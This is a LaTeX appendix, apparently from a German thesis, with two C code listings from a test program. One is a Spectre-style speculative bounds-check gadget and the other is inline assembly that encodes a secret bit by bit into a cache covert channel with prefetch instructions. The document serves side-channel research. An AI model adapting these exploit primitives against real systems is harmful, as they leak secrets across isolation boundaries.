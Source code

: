 \section{Programmausschnitte des Test-Programms}
\begin{lstlisting}[caption={Funktion, die Transient Execution in
    dem Test-Programm auslöst},
    label={listing:transient-function},captionpos=b]
inline __always_inline bool leak_data(void (*asm_encode)(uint64_t data, uint8_t *channel,
                                  uint8_t bits_count, uint64_t stride),
               uint32_t iteration, uint32_t *train_data,
               uint32_t train_data_len, uint64_t secret, uint8_t channel[],
               uint8_t bits_count, uint64_t stride)
{
    if (train_data[iteration] < train_data_len)
    {
        asm_encode(secret, channel, bits_count, stride);
        return true;
    }
    return false;
}
\end{lstlisting}

\begin{lstlisting}[caption={Funktion für die bitweise Encodierung
    eines Secrets in den Covert-Channel},
    label={listing:cbcc-binary-encoding},captionpos=b]
static inline __always_inline void asm_encode_load_bitwise(
    uint64_t data, uint8_t *channel,
    uint8_t bits_count, uint64_t stride)
{
    __asm__ volatile("xor %%rax, %%rax\n"

                     "movb $0x0, %%bl\n"
                     "movq $0x1, %%rcx\n"
                     "movq %[stride], %%rdx\n"
                     "movb %[bitscount], %%sil\n"
                     "enc0:\n"

                     "addb $0x1, %%bl\n"
                     "addq %%rdx,%[channel]\n"
                     "movq %[data], %%rax\n"
                     "andq %%rcx, %%rax\n"
                     "testq %%rax, %%rax\n"
                     "jz nenc0\n"
                     "prefetcht0 (%[channel])\n"

                     "nenc0:\n"
                     "sal $0x1, %%rcx\n"
                     "cmpb %%sil, %%bl\n"
                     "jne enc0\n"
                     :
                     : [data] "r"(data), [channel] "r"(channel), [stride] "r"(stride), [bitscount] "r"(bits_count)
                     : "rax", "rbx", "rcx", "rdx", "rsi", "cc");
}
\end{lstlisting}

